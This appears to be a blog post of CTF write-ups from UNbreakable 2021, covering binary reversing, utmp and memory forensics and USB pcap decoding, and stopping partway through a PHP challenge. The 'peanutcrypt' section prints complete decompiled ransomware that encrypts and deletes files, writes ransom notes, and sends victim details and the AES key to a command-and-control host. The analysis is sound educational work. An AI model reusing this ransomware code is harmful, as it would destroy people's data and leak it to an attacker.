

## Challenges
  * [crazy-number](#crazy-number)
  * [login-view](#login-view)
  * [defuse_the_bomb](#defuse_the_bomb)
  * [universal_studio_boss_exfiltration](#universal_studio_boss_exfiltration)
  * [volatile_secret](#volatile_secret)
  * [peanutcrypt](#peanutcrypt)
  * [substitute](#substitute)
  * [pingster](#pingster)
  * [secure-terminal](#secure-terminal)
  * [rsa-quiz](#rsa-quiz)
  * [bork-sauls](#bork-sauls)
  * [the-restaurant](#the-restaurant)
  * [the-matrix](#the-matrix)
  * [overflowie](#overflowie)
  * [secure-encryption](#secure-encryption)
  * [crossed-pil](#crossed-pil)
  * [lmay](#lmay)

## Intro
It's been a while since my last post. I'd say I was busy, but the truth is that I feel like I made the last long post a few weeks ago. I'll hopefully re-adjust my perception of time and revive the blog - we'll see how that goes.

Also, I was asked to be a mentor for this season of UNbreakable! I had the chance to hold a 2h presentation, write learning materials, create challenges, and answer questions from participants. I also had access to the challenges repositories, so for some challenges I'll just present the author's solution.

## crazy-number {#crazy-number}

Hi edmund. I have some problem with this strange message (103124106173071067062144062060066070145144061071061064143065142146070143145064064060071071144061064066064067141065063143146063061061063146070145060062061060065071063146144071144066071061144145066067062064175).
Can you help me to figure out what it is?

Format flag: CTF{sha256}


After downloading and analyzing the given binary, we can see that it is a 64-bit linux executable:


yakuhito@furry-catstation:~/ctf/unr21-ind$ file crazy 
crazy: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8470f7bcb8cdb855a8d61663ba40b8ba493121df, not stripped
yakuhito@furry-catstation:~/ctf/unr21-ind$ chmod +x crazy 
yakuhito@furry-catstation:~/ctf/unr21-ind$ ./crazy 
Message: This_is_message_from_space!
Encrypt: 124150151163137151163137155145163163141147145137146162157155137163160141143145041
yakuhito@furry-catstation:~/ctf/unr21-ind$


I found no way of controlling the message that will be encrypted, so the only way of solving this challenge is through reverse engineering. We are going to use IDA Pro to read the binary's assembly code. The program wasn't stripped, so we can see the names of the functions as the challenge author put them:

The main function is not very interesting - it pushes 'This_is_message_from_space!' on the stack, uses strlen on it, allocates some space for the encrypted string, calls encrypt_function and then prints the message we saw above. The 'encrypt_function', on the other hand, is what we are interested in. Here's the decompiled assembly code of the function:


encrypt_function proc near              ; CODE XREF: main+D0

var_20          = qword ptr -20h
var_18          = qword ptr -18h
var_8           = dword ptr -8
var_4           = dword ptr -4

; __unwind {
                push    rbp
                mov     rbp, rsp
                sub     rsp, 20h
                mov     [rbp+var_18], rdi
                mov     [rbp+var_20], rsi
                mov     [rbp+var_4], 0
                mov     [rbp+var_8], 0
                jmp     short loc_798
; ---------------------------------------------------------------------------
loc_75A:                                ; CODE XREF: encrypt_function+70↓j
                mov     eax, [rbp+var_8]
                movsxd  rdx, eax
                mov     rax, [rbp+var_18]
                add     rax, rdx
                movzx   eax, byte ptr [rax]
                movsx   eax, al
                mov     edx, [rbp+var_4]
                movsxd  rcx, edx
                mov     rdx, [rbp+var_20]
                add     rcx, rdx
                mov     edx, eax
                lea     rsi, format     ; "%03o"
                mov     rdi, rcx        ; s
                mov     eax, 0
                call    _sprintf
                add     [rbp+var_8], 1
                add     [rbp+var_4], 3
loc_798:                                ; CODE XREF: encrypt_function+1E↑j
                mov     eax, [rbp+var_8]
                movsxd  rdx, eax
                mov     rax, [rbp+var_18]
                add     rax, rdx
                movzx   eax, byte ptr [rax]
                test    al, al
                jnz     short loc_75A
                mov     eax, [rbp+var_4]
                lea     edx, [rax+1]
                mov     [rbp+var_4], edx
                movsxd  rdx, eax
                mov     rax, [rbp+var_20]
                add     rax, rdx
                mov     byte ptr [rax], 0
                nop
                leave
                retn
; } // starts at 73A
encrypt_function endp


The Graph view is, al always, very helpful to understand what encrypt_function does:

The first few lines set up the stack. The execution is then redirected to the beginning of the loop main:


mov     eax, [rbp+var_8]
movsxd  rdx, eax
mov     rax, [rbp+var_18]
add     rax, rdx
movzx   eax, byte ptr [rax]
movsx   eax, al
mov     edx, [rbp+var_4]
movsxd  rcx, edx
mov     rdx, [rbp+var_20]
add     rcx, rdx
mov     edx, eax
lea     rsi, format     ; "%03o"
mov     rdi, rcx        ; s
mov     eax, 0
call    _sprintf
add     [rbp+var_8], 1
add     [rbp+var_4], 3
mov     eax, [rbp+var_8]
movsxd  rdx, eax
mov     rax, [rbp+var_18]
add     rax, rdx
movzx   eax, byte ptr [rax]
test    al, al
jnz     short loc_75A


The loop takes each character of the provided string and uses sprintf("%03o") to put it into the memory area that holds the encrypted string. In this case, "%03o" is known as a format string - it changes the input in a predictable way. A look on [printf's man page](https://linux.die.net/man/3/printf) (printf also supports format strings) will reveal that "%03o" converts the character to octal and pads the resulting number with zeroes until the string reaches a length of 3.

The last few lines of the loop move the next byte of the plaintext into eax and test it against 0, which is a NULL byte. In other words, the loop will finish once all the characters of the plaintext were processed.
Since the last lines of the function just set up the stack for returning to the caller, we can determine that the 'encrypt_function' just converts the ascii string to octal. The following python script will decode the flag:


enc = "103124106173071067062144062060066070145144061071061064143065142146070143145064064060071071144061064066064067141065063143146063061061063146070145060062061060065071063146144071144066071061144145066067062064175"
flag = ""

# split enc into chuks of length 3
enc_parts = [enc[i:i + 3] for i in range(0, len(enc), 3)]

for part in enc_parts:
  # part is the octal representation of a character
  flag += chr(int(part, 8))

print(flag)


In case you're wondering, here's the source code of the binary:


#include <stdio.h>
#include <string.h>

void encrypt_function(char* input, char* output)
{
    int loop;
    int i;

    i=0;
    loop=0;

    while(input[loop] != '\0')
    {
        sprintf((char*)(output+i),"%03o", input[loop]);
        loop+=1;
        i+=3;
    }
    output[i++] = '\0';
}

int main(){

    char message[] = "This_is_message_from_space!";
    int len = strlen(message);
    char encrypt[(len*3)+1];

    encrypt_function(message, encrypt);

    printf("Message: %s\n", message);
    printf("Encrypt: %s\n", encrypt);
    return 0;
}


**Flag:** CTF{972d2068ed1914c5bf8ce44099d14647a53cf3113f8e0210593fd9d691de6724}

## login-view {#login-view}

Hi everyone, we're under attack. Someone put a ransomware on the infrastructure. We need to look at this journal. Can you see what IP the hacker has? Or who was logged on to the station?

Format flag: CTF{sha256(IP)}


Initial analysis of the given file does not seem to reveal its type:


yakuhito@furry-catstation:~/ctf/unr21-ind$ file dump 
dump: data
yakuhito@furry-catstation:~/ctf/unr21-ind$ strings dump | head -n 5
~~  shutdown
5.4.0-70-generic
%f`s
~~  reboot
5.4.0-70-generic
yakuhito@furry-catstation:~/ctf/unr21-ind$


To be honest, I'm not sure if I could have solved this challenge. In order to get the flag, you need to speculate that the original file's name is utmp - find more about /var/run/utmp [here](https://www.sandflysecurity.com/blog/using-linux-utmpdump-for-forensics-and-detecting-log-file-tampering/). Having this information and the article, finding the IP address is simple:


yakuhito@furry-catstation:~/ctf/unr21-ind$ utmpdump dump | head -n 4
Utmp dump of dump
[1] [00000] [~~  ] [shutdown] [~           ] [5.4.0-70-generic    ] [0.0.0.0        ] [2021-04-01T19:57:08,789107+0000]
[2] [00000] [~~  ] [reboot  ] [~           ] [5.4.0-70-generic    ] [0.0.0.0        ] [2021-04-02T06:45:46,867940+0000]
[1] [00053] [~~  ] [runlevel] [~           ] [5.4.0-70-generic    ] [0.0.0.0        ] [2021-04-02T06:45:56,892796+0000]
[7] [05482] [    ] [darius  ] [:0          ] [:0                  ] [0.0.0.0        ] [2021-04-02T06:46:10,477898+0000]
yakuhito@furry-catstation:~/ctf/unr21-ind$ utmpdump dump | cut -d[ -f8 | cut -d" " -f1 | sort -u
Utmp dump of dump
0.0.0.0
197.120.1.223
yakuhito@furry-catstation:~/ctf/unr21-ind$


Since each line of the output contains an IP address, we can use the 'cut' program to get all IP addresses and then print each unique address once. As you can see in the output above, there are only two addresses: `0.0.0.0` and `197.120.1.223`. The first one means any interface (it's like 127.0.0.1 - we can ignore it), so the second one must belong to the attacker.

**Flag:** CTF{f50839694983b5ad6ea165758ec49e301a0dcc662ff4757dc12259cf1c54c08c}

## defuse_the_bomb {#defuse_the_bomb}


You are the last CT alive, you have a defuse kit, and the bomb is planted.
You need to hurry, but what??
Those Terrorists made the bomb defusal-proof...they locked it with a password.
Find the password before the bomb explodes.

Flag format: CTF{sha256}


The given file seems to be an executable that asks for a password:


yakuhito@furry-catstation:~/ctf/unr21-ind$ file defuse_kit 
defuse_kit: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c8fa35d3efd7268cc1a7129249cab4eb20afd030, stripped
yakuhito@furry-catstation:~/ctf/unr21-ind$ chmod +x defuse_kit 
yakuhito@furry-catstation:~/ctf/unr21-ind$ ./defuse_kit 
Salutare, CT. Introdu codul pentru dezamorsarea bombei: 
1337
Codul este incorect. Bomba a explodat. Iar ai ajuns in silver II.
yakuhito@furry-catstation:~/ctf/unr21-ind$


Let's open the binary in IDA Pro. Unfortunately, not all functions have a clear name, meaning that the binary might have been stripped of symbols. However, IDA automatically identifies the main function, which looks like this:

The function prints a string, reads the user's input, calls `strlen` and two other functions (`sub_1375` and `sub_1195`) to alter it and then compares the result with a hardcoded value, `9094929R948S0N940`. Let's start by analyzing `sub_1375`:

You should recognize the loop from the reversing challenge explained above. It takes each character of the input string and processes it using the following code:


mov     eax, [rbp+var_4]
movsxd  rdx, eax
mov     rax, [rbp+var_18]
add     rax, rdx
movzx   eax, byte ptr [rax]
movsx   eax, al
mov     edx, [rbp+var_8]
movsxd  rcx, edx
mov     rdx, [rbp+var_20]
add     rcx, rdx
mov     edx, eax
lea     rsi, format     ; "%02X"
mov     rdi, rcx        ; s
mov     eax, 0
call    _sprintf
add     [rbp+var_4], 1
add     [rbp+var_8], 2


The code above calls `sprintf` using the string `"%02X"` as the 'format' parameter. This will take the character that is being processed, convert it to hex, and pad it with zeroes until it reaches a length of 2. Basically, this function takes a string and converts it to hex. Let's now take a look at the other function, `sub_1195`.

The function has a lot of branches (which translate to ifs in higher-level languages such as C). In fact, `sub_1195` is a simple implementation of the [ROT13 encoding algorithm](https://en.wikipedia.org/wiki/ROT13).

Knowing how the input is being transformed before it is compared to the hardcoded string, we can create a solve script that recovers the original password:


enc = "9094929R948S0N94039496920794"

def sub_1195(s):
  dec = ""
  for ch in s:
    ch = ord(ch)
    if ch > 65 and ch < 90: # 65 = 'A'; 90 = 'Z'
      ch = ch + 13
      if ch > 90:
        ch = ch - 90 + 65 - 1
      dec += chr(ch)
    elif ch >= 97 and ch <= 122: # 97 = 'a'; 122 = 'z'
      ch = ch + 13
      if ch > 122:
        ch = ch - 122 + 97 - 1
      dec += chr(ch)
    elif ch >= 48 and ch <= 57: # 48 = '0'; 57 = '9'
      ch = ch - 48 + 13
      ch = ch % 10
      ch = ch + 48
      dec += chr(ch)
    else:
      dec += chr(ch)
  return dec

def rev_sub_1195(s):
  dec = ""
  for ch in s:
    ch = ord(ch)
    # the hardcoded value doesn't contain lowercase chars
    if ch >= ord('A') and ch <= ord('Z'):
      ch = ch + 13
      if ch > ord('Z'):
        ch = ch - ord('Z') + ord('A') - 1
    else:
      ch = ch - ord('0')
      ch = (ch - 13) % 10
      ch = ch + ord('0')
    dec += chr(ch)
  return dec

def sub_1375(s):
  return s.encode().hex() # shortcut :)

def rev_sub_1375(s):
  return bytes.fromhex(s).decode()

flag = rev_sub_1375(rev_sub_1195(enc))
print(flag)


*Note*: I encountered a pitfall while doing this challenge. While rot13(rot13(character)) = character is true for bot lowercase and uppercase characters, it's not true for digits (the alphabet length is `len('0123456789') = 10`). This means that the decrypt function needs to substract 13 from all digits instead of adding it, as adding would result in a value different to the initial one.

Running the above script will print the correct input, `gaina_zapacita`.

*Note 2*: The printed text is full of references to Counter Strike: Global Offensive, but it's written in romanian.


yakuhito@furry-catstation:~/ctf/unr21-ind$ python solve.py 
gaina_zapacita
yakuhito@furry-catstation:~/ctf/unr21-ind$ ./defuse_kit 
Salutare, CT. Introdu codul pentru dezamorsarea bombei: 
gaina_zapacita
Ati dezamorsat bomba cu succes.
+300$
Flag-ul este ctf{sha256(gaina_zapacita)}
yakuhito@furry-catstation:~/ctf/unr21-ind$


For the curious ones, here's the original source code of the binary:


#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char encripted[] = "9094929R948S0N94039496920794";

char *rot13(char *string) {
  char *rot13d = malloc(strlen(string));
        for(int i = 0; i < strlen(string); i++) 
  {
                if(string[i] >= 65 && string[i] <= 90) 
    {
                        rot13d[i] = string[i] + 13;
                        if(rot13d[i] > 90) 
      {
                                rot13d[i] = rot13d[i] - 90 + 65 - 1;
                        }
                } 
    else if(string[i] >= 97 && string[i] <= 122) 
    {
                        int j = (int)string[i];
                        j = j + 13;
                        if(j > 122) {
                                j = j - 122 + 97 - 1;
                        }
                        rot13d[i] = j;
                }
          else if(string[i] >= '0' && string[i] <= '9')
    {
      rot13d[i] = (string[i] - '0' + 13) % 10 + '0';
    } 
    else {
                        rot13d[i] = string[i];
                }
        }
  return rot13d;
}

void string2hexString(char* input, char* output)
{
    int loop;
    int i; 
    
    i=0;
    loop=0;
    
    while(input[loop] != '\0')
    {
        sprintf((char*)(output+i),"%02X", input[loop]);
        loop+=1;
        i+=2;
    }
    //insert NULL at the end of the output string
    output[i++] = '\0';
}

int main()
{
  char input[30], tohex[30], *rotted;
  
  puts("\033[34mSalutare, CT. Introdu codul pentru dezamorsarea bombei: \033[00m");
  fgets(input, 30, stdin);
  
  input[strlen(input)-1] = '\x00';
  string2hexString(input, tohex);
  rotted = rot13(tohex);
  
  if(!strcmp(rotted, encripted))
  {
    printf("Ati dezamorsat bomba cu succes.\n\033[92m+300$\033[00m\nFlag-ul este ctf{sha256(%s)}\n", input);
  }
  else
  {
    printf("Codul este incorect. Bomba a explodat. Iar ai ajuns in silver II.\n");
  }
  return 0;

}


**Flag:** CTF{c63344dea9cdc97a00f20edca0867575292141b74021560c29c6a4429888d832}

## universal_studio_boss_exfiltration {#universal_studio_boss_exfiltration}


I am the Universal Studio Boss and I found this weird file on a USB drive plugged in my office computer. Can you please find out if my secret projects have been exfiltrated?

Flag format: CTF{sha256}


The provided pcap file contains packets that use the 'USB' and 'USBMS' packets. This is a 'standard' CTF challenge - we need to extract the data that was sent between the two communicating devices.

Packets contain a data section - the first logical step is to find a way to extract the data in an easily-parsable format. We can do this using the following command (taken from the author's writeup):


tshark -r task.pcap -T fields -e usb.capdata | grep -E "^.{23}$" | grep -v 00:00:00:00:00:00:00:00 > data.txt


The 'tshark' pogram extracts the 'capdata' field from all the packets loated in the `task.pcap` file. The output is then piped to 'grep', which filters out all empty lines (if a packet doesn't contain a capdata field, tshark will just print an empty line). Finally, all 'empty' values are filtered out and the output is saved to a file called 'data.txt'. If you're having a difficult time understanding what a part of the bash one-liner does, I suggest running the commands separately and seeing how the output is affected.

The script below was also taken from the chall author's writeup. It can also be found [here](https://naykisec.github.io/USB-Keyboard-packet-capture-analysis/):


usb_codes = {
    0x04:"aA", 0x05:"bB", 0x06:"cC", 0x07:"dD", 0x08:"eE", 0x09:"fF",
    0x0A:"gG", 0x0B:"hH", 0x0C:"iI", 0x0D:"jJ", 0x0E:"kK", 0x0F:"lL",
    0x10:"mM", 0x11:"nN", 0x12:"oO", 0x13:"pP", 0x14:"qQ", 0x15:"rR",
    0x16:"sS", 0x17:"tT", 0x18:"uU", 0x19:"vV", 0x1A:"wW", 0x1B:"xX",
    0x1C:"yY", 0x1D:"zZ", 0x1E:"1!", 0x1F:"2@", 0x20:"3#", 0x21:"4$",
    0x22:"5%", 0x23:"6^", 0x24:"7&", 0x25:"8*", 0x26:"9(", 0x27:"0)",
    0x2C:"  ", 0x2D:"-_", 0x2E:"=+", 0x2F:"[{", 0x30:"]}",  0x32:"#~",
    0x33:";:", 0x34:"'\"",  0x36:",<",  0x37:".>"
    }

lines = ["","","","",""]
        
pos = 0

for x in open("data.txt","r").readlines():
    code = int(x[6:8],16)
    
    if code == 0:
        continue
    # newline or down arrow - move down
    if code == 0x51 or code == 0x28:
        pos += 1
        continue
    # up arrow - move up
    if code == 0x52:
        pos -= 1
        continue

    # select the character based on the Shift key
    if int(x[0:2],16) == 2:
        lines[pos] += usb_codes[code][1]
    else:
        lines[pos] += usb_codes[code][0]
        
    
for x in lines:
    print x


The device was an USB keyboard; the script just translates 'opcodes' into letters. The output is 'Yu=6SD6mvD9dU!9B'. Using 'binwalk' on the packet capture file reveals an archive that can be extraced by using the string we found earlier as password:


yakuhito@furry-catstation:~/ctf/unr21-ind$ binwalk -e task.pcap

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Libpcap capture file, little-endian, version 2.4, Unknown link layer, snaplen: 134217728
1080581       0x107D05        Zip archive data, encrypted at least v2.0 to extract, compressed size: 72, uncompressed size: 69, name: flag.txt
1080781       0x107DCD        End of Zip archive, footer length: 22

yakuhito@furry-catstation:~/ctf/unr21-ind$ cp _task.pcap.extracted/107D05.zip ./flag.zip
yakuhito@furry-catstation:~/ctf/unr21-ind$ unzip -P Yu=6SD6mvD9dU\!9B flag.zip
Archive:  flag.zip
  inflating: flag.txt                
yakuhito@furry-catstation:~/ctf/unr21-ind$ cat flag.txt 
ctf{


**Flag:** ctf{b1678d5ea41652817b6e8c4d5da8d0a418820b2fa13544c6158f260d091fc1e2}

## volatile_secret {#volatile_secret}


I heard you can find my secret only from my volatile memory! Let's see if it is true.

Flag format: CTF{sha256}


I love downloading huge files from the internet! The provided 1.4G file was a memory dump. As explained in my bootcamp presentation, we can use volatility to parse it. The first step is to determine the profile of the memory dump:


yakuhito@furry-catstation:~/ctf/unr21-ind$ file image.raw 
image.raw: data
yakuhito@furry-catstation:~/ctf/unr21-ind$ volatility -f image.raw imageinfo
Volatility Foundation Volatility Framework 2.6
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/yakuhito/ctf/unr21-ind/image.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80002e4f0a0L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002e50d00L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2021-05-07 15:11:53 UTC+0000
     Image local date and time : 2021-05-07 18:11:53 +0300
yakuhito@furry-catstation:~/ctf/unr21-ind$ 


As always, the first action we make is to look for interesting files. We can see a .kdbx file, which normally stores passwords and other secrets:


yakuhito@furry-catstation:~/ctf/unr21-ind$ volatility -f image.raw --profile=Win7SP1x64 filescan > files
Volatility Foundation Volatility Framework 2.6
yakuhito@furry-catstation:~/ctf/unr21-ind$ subl files 
yakuhito@furry-catstation:~/ctf/unr21-ind$ cat files | grep .kdbx
0x0000000052b0eaf0     16      0 R--r-- \Device\HarddiskVolume1\Users\Unbreakable\Desktop\Database.kdbx
0x0000000054212dc0      2      0 R--rwd \Device\HarddiskVolume1\Users\Unbreakable\Desktop\Database.kdbx
0x00000000543a0ae0      2      0 RW-rw- \Device\HarddiskVolume1\Users\Unbreakable\AppData\Roaming\Microsoft\Windows\Recent\Database.kdbx.lnk
yakuhito@furry-catstation:~/ctf/unr21-ind$


We can extract the files using the 'dumpfiles' command:


yakuhito@furry-catstation:~/ctf/unr21-ind$ volatility -f image.raw --profile=Win7SP1x64 dumpfiles -Q 0x0000000052b0eaf0 -n --dump-dir .
Volatility Foundation Volatility Framework 2.6
DataSectionObject 0x52b0eaf0   None   \Device\HarddiskVolume1\Users\Unbreakable\Desktop\Database.kdbx
yakuhito@furry-catstation:~/ctf/unr21-ind$ mv file.None.0xfffffa8010c9bcf0.Database.kdbx.dat db.kdbx
yakuhito@furry-catstation:~/ctf/unr21-ind$ file db.kdbx 
db.kdbx: Keepass password database 2.x KDBX
yakuhito@furry-catstation:~/ctf/unr21-ind$


The password database file is password-protected, so we must keep searching. Eventually, we'll stumble upon another interesting file, `SuperSecretFile.txt`:


yakuhito@furry-catstation:~/ctf/unr21-ind$ cat files | grep SuperSecretFile.txt
0x000000005434e550     16      0 R--rwd \Device\HarddiskVolume1\Users\Unbreakable\SuperSecretFile.txt
yakuhito@furry-catstation:~/ctf/unr21-ind$ volatility -f image.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000005434e550 -n --dump-dir .
Volatility Foundation Volatility Framework 2.6
DataSectionObject 0x5434e550   None   \Device\HarddiskVolume1\Users\Unbreakable\SuperSecretFile.txt
yakuhito@furry-catstation:~/ctf/unr21-ind$ mv file.None.0xfffffa8010d88d90.SuperSecretFile.txt.dat SuperSecretFile.txt
yakuhito@furry-catstation:~/ctf/unr21-ind$ file SuperSecretFile.txt 
SuperSecretFile.txt: ASCII text, with no line terminators
yakuhito@furry-catstation:~/ctf/unr21-ind$ cat SuperSecretFile.txt 
mqDb*N6*(mAk3W)=
yakuhito@furry-catstation:~/ctf/unr21-ind$


We can get the flag by importing the .kdbx file into keepass and providing the newly-found password:

**Flag:** ctf{6034a8f96c257e8cfda0c92447033faeeb28b21bb0510b6fd3a1a31343d0f646}

## peanutcrypt {#peanutcrypt}


I was hosting a CTF when someone came and stole all my flags?

Can you help me get them back?

Flag format: CTF{sha256}


This time we are provided with 2 files: `flag.enc` and `capture.pcapng`. Since the '.enc' extension suggests that the former is encrypted (and the file contains non-readable characters), we can safely assume that we need to analyze `capture.pcapng` first.

After opening the file in WireShark and analyzing it, we find an interesting HTTP request:

The data returned by the server suggests that the file content is not entirely readable. After saving it ('Show and save data as: Raw'; save to 'peanutcrypt_raw'), we can run 'strings' to get a better idea of what the data is:


yakuhito@furry-catstation:~/ctf/unr21-ind$ strings peanutcrypt_raw 
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.9.4
Date: Mon, 10 May 2021 17:19:01 GMT
Content-type: application/octet-stream
Content-Length: 2880
Last-Modified: Mon, 10 May 2021 16:59:11 GMT
m Z 
e"e#
e"e#
e"e#
AES)
peanutbotnet.nutsiiz
TZ"DCBk3WqNVfSSMe5kqwCFg7m6QDbjkT5nfRZ  undefinedc
_ransom.txt
wzEYour files have been encrypted by PeanutCrypt.
Send 5000 DogeCoin to z
 along with z
 to recover your data)
open
write
doge_address
uid)
pathZ
ransom_file
main.py


As you can see on the last line of output, the file contains a string of value "main.py". This suggests that peanutcrypt is a python compiled file. Before proceeding further, I need to mention that the magic bytes of a '.pyc' file often change for each version of python. This means that there are two ways of splitting the original 'peanutcrypt' binary from the HTTP response: either do it manually or find the python version that has the same '.pyc' file header. I went with the latter and discovered that the binary is a python3.8 .pyc file. The script below should extract the original .pyc WHEN RUN USING PYTHON3.8:


import importlib

raw = open("peanutcrypt_raw", "rb").read()
real_file_contents = raw.split(importlib.util.MAGIC_NUMBER)[1]

open("peanutcrypt", "wb").write(real_file_contents)


Thankfully, the source code of .pyc files can usually be recovered. I used 'uncompyle6' to do that (remember, the program was written in python3.8!):


yakuhito@furry-catstation:~/ctf/unr21-ind$ python3.8 -m pip install uncompyle6
Collecting uncompyle6
[...]
Successfully installed click-8.0.0 six-1.16.0 spark-parser-1.8.9 uncompyle6-3.7.4 xdis-5.0.9
yakuhito@furry-catstation:~/ctf/unr21-ind$ uncompyle6 ./peanutcrypt.pyc 
[READ BELOW]
yakuhito@furry-catstation:~/ctf/unr21-ind$



# uncompyle6 version 3.7.4
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.0 (default, Feb 25 2021, 22:10:10) 
# [GCC 8.4.0]
# Embedded file name: main.py
# Compiled at: 2021-05-10 17:55:50
# Size of source mod 2**32: 2826 bytes
import random, time, getpass, platform, hashlib, os, socket, sys
from Crypto.Cipher import AES
c2 = ('peanutbotnet.nuts', 31337)
super_secret_encoding_key = b'\x04NA\xedc\xabt\x8c\xe5\x11o\x143B\xea\xa2'
lets_not_do_this = True
doge_address = 'DCBk3WqNVfSSMe5kqwCFg7m6QDbjkT5nfR'
uid = 'undefined'

def write_ransom(path):
    ransom_file = open(path + '_ransom.txt', 'w')
    ransom_file.write(f"Your files have been encrypted by PeanutCrypt.\nSend 5000 DogeCoin to {doge_address} along with {uid} to recover your data")

def encrypt_reccursive(path, key, iv):
    for dirpath, dirnames, filenames in os.walk(path):
        for dirname in dirnames:
            write_ransom(dirname + '/')

    else:
        for filename in filenames:
            encrypt_file(dirpath + '/' + filename, key, iv)

def encrypt_file(path, key, iv):
    bs = AES.block_size
    cipher = AES.new(key, AES.MODE_CBC, iv)
    in_file = open(path, 'rb')
    out_file = open(path + '.enc', 'wb')
    finished = False
    while not finished:
        chunk = in_file.read(1024 * bs)
        if not len(chunk) == 0:
            if len(chunk) % bs != 0:
                padding_length = bs - len(chunk) % bs or bs
                chunk += str.encode(padding_length * chr(padding_length))
                finished = True
            out_file.write(cipher.encrypt(chunk))

    os.remove(path)

def encode_message(message):
    encoded_message = b''
    for i, char in enumerate(message):
        encoded_message += bytes([ord(char) ^ super_secret_encoding_key[(i % 16)]])
    else:
        return encoded_message

def send_status(status):
    message = f"{status} {uid} {getpass.getuser()} {''.join(platform.uname())}"
    encoded_message = encode_message(message)
    udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    udp_socket.sendto(encoded_message, c2)

def send_key(key, iv):
    message = f"{uid} " + key.hex() + ' ' + iv.hex()
    encoded_message = encode_message(message)
    tcp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    tcp_socket.connect(c2)
    print(encoded_message)
    tcp_socket.sendall(encoded_message)
    tcp_socket.close()

if __name__ == '__main__':
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <file/directory>")
        sys.exit(1)
    else:
        path = sys.argv[1]
        hash = hashlib.sha256()
        hash.update(os.urandom(16))
        uid = hash.hexdigest()
        send_status('WAITING')
        time.sleep(random.randint(60, 120))
        send_status('ENCRYPTING')
        key = os.urandom(16)
        iv = os.urandom(16)
        if os.path.isfile(path):
            encrypt_file(path, key, iv)
            write_ransom(path)
        if os.path.isdir(path):
            lets_not_do_this or encrypt_reccursive(path, key, iv)
    send_key(key, iv)
    send_status('DONE')
# okay decompiling ./peanutcrypt.pyc


The ransomware encrypts files using AES. We can also see that the key and iv and sent to the attacker's server via TCP on port 31337. The data being communicated is XORed with 'super_secret_encoding_key', so we can recover it if we find the packets in WireShark:

Only one TCP connection was made to a host's port 31337, so we can safely assume that it contains the encrypted key and iv. The following python script can recover the flag:


from Crypto.Cipher import AES
from pwn import xor

key_and_iv_enc = bytes.fromhex("322d78dc06cd44bbd0220c770424de93607779db5bcd12bdd272592607238894677d27d4549d41ea8627097506738b9b307c20d45bce11ed872959245275ddc6247b77df539f17ba842256215524d291347878da069e17bd86285f220126d297306e20dc569817e884720d220b73d9c73277728857cf17bdd5280e240226899b602a")
super_secret_encoding_key = b'\x04NA\xedc\xabt\x8c\xe5\x11o\x143B\xea\xa2'

# decrypt key and iv
key_and_iv = xor(key_and_iv_enc, super_secret_encoding_key).decode() # thanks pwnlib!
key = bytes.fromhex(key_and_iv.split(" ")[1])
iv = bytes.fromhex(key_and_iv.split(" ")[2])

# decrypt flag
bs = AES.block_size
cipher = AES.new(key, AES.MODE_CBC, iv)
enc = open("flag.enc", "rb").read()
flag = cipher.decrypt(enc)

print(flag)


**Flag:** CTF{1fdbc7dd3c51c7b47585856b9d2b04a3a115ff88e615917ffb652f9ca3c1806e}

## substitute {#substitute}


Hi, we need help. Because we have an admin who abuses power we no longer have control over the workstations. We need a group of hackers to help us. Do you think you can replace him?

Format flag: CTF{sha256}


Accessing the provided website returns the following response:



Welcome guys, we have a problem:
We try to replace Admin, can you help me?
Can you replace Admin??

Source code

<?php
        $input = "Can you replace Admin??";
        if(isset($_GET["vector"]) && isset($_GET["replace"])){
                $pattern = $_GET["vector"];
                $replacement = $_GET["replace"];
